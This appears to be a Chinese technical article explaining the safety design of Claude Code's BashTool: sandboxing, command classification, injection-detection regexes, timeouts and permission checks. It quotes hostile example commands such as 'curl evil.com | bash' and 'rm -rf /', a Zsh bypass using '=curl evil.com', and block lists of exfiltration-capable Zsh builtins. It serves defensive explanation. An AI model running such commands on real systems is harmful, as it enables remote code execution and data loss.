


## 问题引入

让 AI 执行 Shell 命令是一种极端危险的能力。一条 `rm -rf /` 就能摧毁整个系统；一条 `curl evil.com | bash` 就能执行任意远程代码；甚至看似无害的 `cat /dev/random` 都能让进程挂起。

然而，Shell 命令又是 AI 编码助手不可或缺的能力。运行测试、安装依赖、执行构建、Git 操作——这些都需要 Shell 访问。Claude Code 的 BashTool 必须在"足够强大"和"足够安全"之间找到平衡点。

BashTool 是 Claude Code 中最复杂的单个工具，其源码跨越多个文件、数千行代码。本文将深入它的安全执行架构——从沙箱机制到命令分类，从超时管理到后台执行。

---

## BashTool 的输入模型

```typescript
// src/tools/BashTool/BashTool.tsx:227-259
const fullInputSchema = lazySchema(() => z.strictObject({
  command: z.string().describe('The command to execute'),
  timeout: semanticNumber(z.number().optional()).describe(
    `Optional timeout in milliseconds (max ${getMaxTimeoutMs()})`
  ),
  description: z.string().optional().describe(
    'Clear, concise description of what this command does in active voice...'
  ),
  run_in_background: semanticBoolean(z.boolean().optional()).describe(
    'Set to true to run this command in the background...'
  ),
  dangerouslyDisableSandbox: semanticBoolean(z.boolean().optional()).describe(
    'Set this to true to dangerously override sandbox mode...'
  ),
  _simulatedSedEdit: z.object({
    filePath: z.string(),
    newContent: z.string()
  }).optional().describe('Internal: pre-computed sed edit result from preview')
}));

// Always omit _simulatedSedEdit from the model-facing schema
const inputSchema = lazySchema(() => isBackgroundTasksDisabled
  ? fullInputSchema().omit({ run_in_background: true, _simulatedSedEdit: true })
  : fullInputSchema().omit({ _simulatedSedEdit: true })
);
```

六个字段中，`_simulatedSedEdit` 是一个**内部字段**，永远不会暴露给模型。它用于 sed 编辑预览：当用户在权限对话框中批准了一个 sed 命令的预览结果后，系统将预计算的新文件内容直接写入，而不是重新执行 sed。这避免了"预览看到的"和"实际执行的"不一致的问题。

`semanticNumber` 和 `semanticBoolean` 是 Claude Code 特有的 Zod 类型——它们在 Schema 层面接受字符串形式的数字/布尔值（如 `"true"` 或 `"120000"`），处理 AI 偶尔将参数作为字符串发送的情况。

---

## 命令分类体系

BashTool 将 Shell 命令分为多个语义类别，用于 UI 展示和行为判断：



```typescript
// src/tools/BashTool/BashTool.tsx:60-81
const BASH_SEARCH_COMMANDS = new Set([
  'find', 'grep', 'rg', 'ag', 'ack', 'locate', 'which', 'whereis'
]);

const BASH_READ_COMMANDS = new Set([
  'cat', 'head', 'tail', 'less', 'more',
  'wc', 'stat', 'file', 'strings',
  'jq', 'awk', 'cut', 'sort', 'uniq', 'tr'
]);

const BASH_LIST_COMMANDS = new Set(['ls', 'tree', 'du']);

const BASH_SEMANTIC_NEUTRAL_COMMANDS = new Set([
  'echo', 'printf', 'true', 'false', ':'
]);

const BASH_SILENT_COMMANDS = new Set([
  'mv', 'cp', 'rm', 'mkdir', 'rmdir', 'chmod', 'chown',
  'chgrp', 'touch', 'ln', 'cd', 'export', 'unset', 'wait'
]);
```

### 管道和复合命令的分类

分类逻辑不是简单地检查第一个命令。对于管道（`cat file | grep pattern`），**所有**部分必须都是搜索/读取命令，整个命令才被视为搜索/读取：

```typescript
// src/tools/BashTool/BashTool.tsx:94-172
export function isSearchOrReadBashCommand(command: string): {
  isSearch: boolean;
  isRead: boolean;
  isList: boolean;
} {
  let partsWithOperators: string[];
  try {
    partsWithOperators = splitCommandWithOperators(command);
  } catch {
    return { isSearch: false, isRead: false, isList: false };
  }

  // ... 遍历所有部分

  // Semantic-neutral commands (echo, printf, true, false, :) are skipped
  // in any position, as they're pure output/status commands that don't
  // affect the read/search nature of the pipeline
  // e.g. `ls dir && echo "---" && ls dir2` is still a read
```

`echo` 和 `printf` 被标记为"语义中性"——它们在管道中不改变整体命令的读/写性质。`ls dir && echo "---" && ls dir2` 仍然被视为列目录命令，因为 `echo` 不影响语义。

### 命令语义解释

不同命令的退出码有不同含义。`grep` 返回 1 表示"没找到匹配"而非错误；`diff` 返回 1 表示"文件有差异"。BashTool 通过语义映射表正确解释这些情况：

```typescript
// src/tools/BashTool/commandSemantics.ts:31-89
const COMMAND_SEMANTICS: Map<string, CommandSemantic> = new Map([
  // grep: 0=matches found, 1=no matches, 2+=error
  ['grep', (exitCode) => ({
    isError: exitCode >= 2,
    message: exitCode === 1 ? 'No matches found' : undefined,
  })],

  // ripgrep has same semantics as grep
  ['rg', (exitCode) => ({
    isError: exitCode >= 2,
    message: exitCode === 1 ? 'No matches found' : undefined,
  })],

  // diff: 0=no differences, 1=differences found, 2+=error
  ['diff', (exitCode) => ({
    isError: exitCode >= 2,
    message: exitCode === 1 ? 'Files differ' : undefined,
  })],

  // test/[: 0=condition true, 1=condition false, 2+=error
  ['test', (exitCode) => ({
    isError: exitCode >= 2,
    message: exitCode === 1 ? 'Condition is false' : undefined,
  })],
])
```

---

## 沙箱机制

BashTool 的沙箱是一个**可选但推荐**的安全层，控制命令可以访问哪些文件和网络主机。

### 沙箱决策流程

```typescript
// src/tools/BashTool/shouldUseSandbox.ts:130-153
export function shouldUseSandbox(input: Partial<SandboxInput>): boolean {
  if (!SandboxManager.isSandboxingEnabled()) {
    return false
  }

  // Don't sandbox if explicitly overridden AND unsandboxed commands are allowed
  if (
    input.dangerouslyDisableSandbox &&
    SandboxManager.areUnsandboxedCommandsAllowed()
  ) {
    return false
  }

  if (!input.command) {
    return false
  }

  // Don't sandbox if the command contains user-configured excluded commands
  if (containsExcludedCommand(input.command)) {
    return false
  }

  return true
}
```

四个条件可以跳过沙箱：

1. 沙箱全局未启用
2. `dangerouslyDisableSandbox: true` 且策略允许无沙箱命令
3. 没有命令（空调用）
4. 命令匹配用户配置的排除列表

### 排除命令的匹配

排除列表支持与权限规则相同的模式语法：

```typescript
// src/tools/BashTool/shouldUseSandbox.ts:71-127
  for (const subcommand of subcommands) {
    const trimmed = subcommand.trim()
    // Also try matching with env var prefixes and wrapper commands stripped
    // e.g. `FOO=bar bazel ...` and `timeout 30 bazel ...` match `bazel:*`
    const candidates = [trimmed]
    const seen = new Set(candidates)
    let startIdx = 0
    while (startIdx < candidates.length) {
      const endIdx = candidates.length
      for (let i = startIdx; i < endIdx; i++) {
        const cmd = candidates[i]!
        const envStripped = stripAllLeadingEnvVars(cmd, BINARY_HIJACK_VARS)
        if (!seen.has(envStripped)) {
          candidates.push(envStripped)
          seen.add(envStripped)
        }
        const wrapperStripped = stripSafeWrappers(cmd)
        if (!seen.has(wrapperStripped)) {
          candidates.push(wrapperStripped)
          seen.add(wrapperStripped)
        }
      }
      startIdx = endIdx
    }
    // ... match each candidate against excluded patterns
  }
```

这里使用了**不动点迭代**（fixed-point iteration）来处理环境变量和 wrapper 命令的交错：`timeout 300 FOO=bar bazel run` 需要先剥离 `timeout 300`，再剥离 `FOO=bar`，最后匹配 `bazel`。单次遍历无法处理这种交错。

### 沙箱 Prompt 注入

当沙箱启用时，BashTool 的 prompt 会动态注入沙箱限制信息：

```typescript
// src/tools/BashTool/prompt.ts:172-273
function getSimpleSandboxSection(): string {
  if (!SandboxManager.isSandboxingEnabled()) {
    return ''
  }

  const fsReadConfig = SandboxManager.getFsReadConfig()
  const fsWriteConfig = SandboxManager.getFsWriteConfig()
  const networkRestrictionConfig = SandboxManager.getNetworkRestrictionConfig()

  const filesystemConfig = {
    read: {
      denyOnly: dedup(fsReadConfig.denyOnly),
    },
    write: {
      allowOnly: normalizeAllowOnly(fsWriteConfig.allowOnly),
      denyWithinAllow: dedup(fsWriteConfig.denyWithinAllow),
    },
  }
  // ... 将配置序列化注入 prompt
}
```

注意 `dedup` 函数的使用：SandboxManager 从多个来源（settings 层、默认值、CLI 标志）合并配置时可能产生重复路径。去重后注入 prompt 可以节省约 150-200 个 token。

---

## 安全检查：bashSecurity.ts

BashTool 的安全检查是一个多层防御系统，位于 `bashSecurity.ts` 中。

### 命令替换检测

```typescript
// src/tools/BashTool/bashSecurity.ts:16-41
const COMMAND_SUBSTITUTION_PATTERNS = [
  { pattern: /<\(/, message: 'process substitution <()' },
  { pattern: />\(/, message: 'process substitution >()' },
  { pattern: /=\(/, message: 'Zsh process substitution =()' },
  { pattern: /(?:^|[\s;&|])=[a-zA-Z_]/, message: 'Zsh equals expansion (=cmd)' },
  { pattern: /\$\(/, message: '$() command substitution' },
  { pattern: /\$\{/, message: '${} parameter substitution' },
  { pattern: /\$\[/, message: '$[] legacy arithmetic expansion' },
  { pattern: /~\[/, message: 'Zsh-style parameter expansion' },
  { pattern: /\(e:/, message: 'Zsh-style glob qualifiers' },
  { pattern: /\(\+/, message: 'Zsh glob qualifier with command execution' },
  { pattern: /\}\s*always\s*\{/, message: 'Zsh always block (try/always construct)' },
  { pattern: /<#/, message: 'PowerShell comment syntax' },
]
```

这些模式检测各种形式的命令替换——攻击者可能通过 `$(malicious_command)` 或 Zsh 的 `=cmd` 扩展来注入恶意命令。注意 Zsh 的 `=curl evil.com` 会被扩展为 `/usr/bin/curl evil.com`，绕过基于命令名的 deny 规则。

### Zsh 危险命令

```typescript
// src/tools/BashTool/bashSecurity.ts:43-74
const ZSH_DANGEROUS_COMMANDS = new Set([
  'zmodload',   // Gateway to many dangerous module-based attacks
  'emulate',    // emulate with -c flag is an eval-equivalent
  'sysopen',    // Opens files with fine-grained control (zsh/system)
  'sysread',    // Reads from file descriptors
  'syswrite',   // Writes to file descriptors
  'zpty',       // Executes commands on pseudo-terminals
  'ztcp',       // Creates TCP connections for exfiltration
  'zsocket',    // Creates Unix/TCP sockets
  'zf_rm',      // Builtin rm from zsh/files
  'zf_mv',      // Builtin mv from zsh/files
  // ... more zsh builtins
])
```

`zmodload` 是最危险的——它可以加载 `zsh/system`（绕过文件权限检查）、`zsh/zpty`（伪终端执行）、`zsh/net/tcp`（网络外泄）等模块。Claude Code 将这些命令作为防御纵深阻断。

### 安全检查标识符

```typescript
// src/tools/BashTool/bashSecurity.ts:77-101
const BASH_SECURITY_CHECK_IDS = {
  INCOMPLETE_COMMANDS: 1,
  JQ_SYSTEM_FUNCTION: 2,
  JQ_FILE_ARGUMENTS: 3,
  OBFUSCATED_FLAGS: 4,
  SHELL_METACHARACTERS: 5,
  DANGEROUS_VARIABLES: 6,
  NEWLINES: 7,
  DANGEROUS_PATTERNS_COMMAND_SUBSTITUTION: 8,
  DANGEROUS_PATTERNS_INPUT_REDIRECTION: 9,
  DANGEROUS_PATTERNS_OUTPUT_REDIRECTION: 10,
  IFS_INJECTION: 11,
  GIT_COMMIT_SUBSTITUTION: 12,
  PROC_ENVIRON_ACCESS: 13,
  MALFORMED_TOKEN_INJECTION: 14,
  BACKSLASH_ESCAPED_WHITESPACE: 15,
  BRACE_EXPANSION: 16,
  CONTROL_CHARACTERS: 17,
  UNICODE_WHITESPACE: 18,
  MID_WORD_HASH: 19,
  ZSH_DANGEROUS_COMMANDS: 20,
  BACKSLASH_ESCAPED_OPERATORS: 21,
  COMMENT_QUOTE_DESYNC: 22,
  QUOTED_NEWLINE: 23,
} as const
```

23 种安全检查，每种都有数字 ID（避免在日志中记录字符串），覆盖了从 IFS 注入到 Unicode 空白字符攻击的广泛威胁面。

---

## 破坏性命令警告

```typescript
// src/tools/BashTool/destructiveCommandWarning.ts:12-89
const DESTRUCTIVE_PATTERNS: DestructivePattern[] = [
  // Git — data loss / hard to reverse
  { pattern: /\bgit\s+reset\s+--hard\b/,
    warning: 'Note: may discard uncommitted changes' },
  { pattern: /\bgit\s+push\b[^;&|\n]*[ \t](--force|--force-with-lease|-f)\b/,
    warning: 'Note: may overwrite remote history' },
  { pattern: /\bgit\s+clean\b(?![^;&|\n]*(?:-[a-zA-Z]*n|--dry-run))[^;&|\n]*-[a-zA-Z]*f/,
    warning: 'Note: may permanently delete untracked files' },

  // File deletion
  { pattern: /(^|[;&|\n]\s*)rm\s+-[a-zA-Z]*[rR][a-zA-Z]*f/,
    warning: 'Note: may recursively force-remove files' },

  // Database
  { pattern: /\b(DROP|TRUNCATE)\s+(TABLE|DATABASE|SCHEMA)\b/i,
    warning: 'Note: may drop or truncate database objects' },

  // Infrastructure
  { pattern: /\bkubectl\s+delete\b/,
    warning: 'Note: may delete Kubernetes resources' },
  { pattern: /\bterraform\s+destroy\b/,
    warning: 'Note: may destroy Terraform infrastructure' },
]
```

这些警告是**纯信息性的**——不影响权限逻辑或自动批准。它们在权限对话框中显示，帮助用户做出知情决策。注意 `git clean` 的正则排除了 `--dry-run` 和 `-n` 标志——干运行不是破坏性的。

---

## 超时管理

BashTool 有三层超时控制：

```typescript
// src/tools/BashTool/prompt.ts:27-33
export function getDefaultTimeoutMs(): number {
  return getDefaultBashTimeoutMs()
}

export function getMaxTimeoutMs(): number {
  return getMaxBashTimeoutMs()
}
```

1. **默认超时** — 通常为 120 秒（2 分钟），适合大多数命令
2. **最大超时** — 通常为 600 秒（10 分钟），AI 可以通过 `timeout` 参数请求更长时间
3. **后台执行** — 长时间命令可以通过 `run_in_background: true` 转入后台

### 后台执行

```typescript
// src/tools/BashTool/BashTool.tsx:52-57
const PROGRESS_THRESHOLD_MS = 2000; // Show progress after 2 seconds
const ASSISTANT_BLOCKING_BUDGET_MS = 15_000;
```

在 Assistant 模式下，阻塞命令在 15 秒后会被自动后台化。这防止了长时间运行的构建或测试阻塞整个交互循环。

后台任务有专门的生命周期管理：



不允许自动后台化的命令有一个黑名单——`sleep` 命令就在其中，因为它通常是等待的前奏，不应该被后台化。

### 进度显示

```typescript
// src/tools/BashTool/BashTool.tsx:54
const PROGRESS_THRESHOLD_MS = 2000; // Show progress after 2 seconds
```

命令运行超过 2 秒后开始显示进度。这避免了对快速命令的不必要 UI 噪音，同时让用户知道长时间命令仍在运行。

---

## 权限系统交互

BashTool 的权限检查是所有工具中最复杂的，位于 `bashPermissions.ts`。

### 子命令拆分

```typescript
// src/tools/BashTool/bashPermissions.ts:96-103
export const MAX_SUBCOMMANDS_FOR_SECURITY_CHECK = 50
export const MAX_SUGGESTED_RULES_FOR_COMPOUND = 5
```

复合命令（如 `mkdir -p src && touch src/index.ts && npm init`）会被拆分为子命令，每个子命令独立进行权限检查。但有上限——50 个子命令。超过这个数量，系统无法证明命令安全，直接回退到 `ask`（请求用户确认）。

这个限制的原因在源码中有解释：`splitCommand_DEPRECATED` 在复杂复合命令上可能产生指数级增长的子命令数组，每个子命令都要经过 tree-sitter 解析和约 20 个验证器，导致事件循环饥饿。

### 基于 Classifier 的权限

Claude Code 支持基于 AI 分类器的权限判断——使用模型来理解命令的意图，而不仅仅是模式匹配。这个系统在 `bashPermissions.ts` 中通过 `classifyBashCommand` 实现，在内部版本中记录评估结果用于分析。

---

## Prompt 工程：引导 AI 使用正确的工具

BashTool 的 prompt 不仅描述了工具本身，还明确引导 AI 优先使用专用工具：

```typescript
// src/tools/BashTool/prompt.ts:280-291
const toolPreferenceItems = [
  `File search: Use ${GLOB_TOOL_NAME} (NOT find or ls)`,
  `Content search: Use ${GREP_TOOL_NAME} (NOT grep or rg)`,
  `Read files: Use ${FILE_READ_TOOL_NAME} (NOT cat/head/tail)`,
  `Edit files: Use ${FILE_EDIT_TOOL_NAME} (NOT sed/awk)`,
  `Write files: Use ${FILE_WRITE_TOOL_NAME} (NOT echo >/cat <<EOF)`,
  'Communication: Output text directly (NOT echo/printf)',
]
```

这种"NOT X"的明确否定比"prefer Y"更有效——它直接告诉 AI 不要做什么，减少了歧义。

### Git 安全协议

Prompt 中包含详细的 Git 安全协议：

```typescript
// src/tools/BashTool/prompt.ts:82-93
// Git Safety Protocol:
// - NEVER update the git config
// - NEVER run destructive git commands (push --force, reset --hard, ...)
//   unless the user explicitly requests
// - NEVER skip hooks (--no-verify, --no-gpg-sign, etc)
// - NEVER run force push to main/master
// - CRITICAL: Always create NEW commits rather than amending
// - When staging files, prefer adding specific files by name
//   rather than "git add -A" or "git add ."
// - NEVER commit changes unless the user explicitly asks
```

这些规则不是建议——它们是硬约束。"CRITICAL" 标记的规则（总是创建新 commit 而非 amend）解决了一个真实的数据丢失风险：当 pre-commit hook 失败时，commit 并未发生，此时 `--amend` 会修改上一个 commit。

---

## 睡眠检测

一个有趣的防护措施——阻止 AI 使用 `sleep` 进行轮询：

```typescript
// src/tools/BashTool/BashTool.tsx:322-337
export function detectBlockedSleepPattern(command: string): string | null {
  const parts = splitCommand_DEPRECATED(command);
  if (parts.length === 0) return null;
  const first = parts[0]?.trim() ?? '';
  const m = /^sleep\s+(\d+)\s*$/.exec(first);
  if (!m) return null;
  const secs = parseInt(m[1]!, 10);
  if (secs < 2) return null; // sub-2s sleeps are fine (rate limiting, pacing)

  const rest = parts.slice(1).join(' ').trim();
  return rest
    ? `sleep ${secs} followed by: ${rest}`
    : `standalone sleep ${secs}`;
}
```

2 秒以下的 sleep 被允许（用于速率限制），但更长的 sleep 会被阻止或警告。当检测到 `sleep 5 && check_status` 这样的模式时，系统会建议使用 `run_in_background` 或 Monitor 工具替代。

---

## Sed 编辑预览

BashTool 对 `sed` 命令有特殊处理——它可以在权限对话框中显示编辑预览：

```typescript
// src/tools/BashTool/BashTool.tsx:360-399
async function applySedEdit(
  simulatedEdit: { filePath: string; newContent: string },
  toolUseContext: SimulatedSedEditContext,
  parentMessage?: AssistantMessage
): Promise<SimulatedSedEditResult> {
  const { filePath, newContent } = simulatedEdit;
  const absoluteFilePath = expandPath(filePath);

  // Read original content for VS Code notification
  let originalContent: string;
  try {
    originalContent = await fs.readFile(absoluteFilePath, { encoding });
  } catch (e) { /* handle ENOENT */ }

  // Track file history before making changes (for undo support)
  if (fileHistoryEnabled() && parentMessage) {
    await fileHistoryTrackEdit(
      toolUseContext.updateFileHistoryState,
      absoluteFilePath,
      parentMessage.uuid
    );
  }

  // Detect line endings and write new content
  const endings = detectLineEndings(absoluteFilePath);
  writeTextContent(absoluteFilePath, newContent, encoding, endings);
```

这确保了用户在权限对话框中看到的 diff 和实际写入的内容完全一致——不会因为 sed 的执行环境差异导致不同的结果。

---

## 设计启示

BashTool 的设计体现了几个关键原则：

1. **纵深防御** — 沙箱、权限检查、安全模式验证、破坏性命令警告——每一层都可能失败，但所有层一起提供了健壮的保护

2. **语义理解** — 命令分类、退出码解释、静默命令识别——系统不仅仅执行命令，还理解命令的语义

3. **渐进策略** — 默认使用沙箱，允许有条件绕过。默认超时 2 分钟，允许延长到 10 分钟。默认前台执行，支持后台化。每个约束都有逃生舱口

4. **复杂度预算** — 子命令数量上限、安全检查的数字 ID、去重后的沙箱路径——在复杂性不可避免时，系统设定了明确的复杂度预算来防止失控
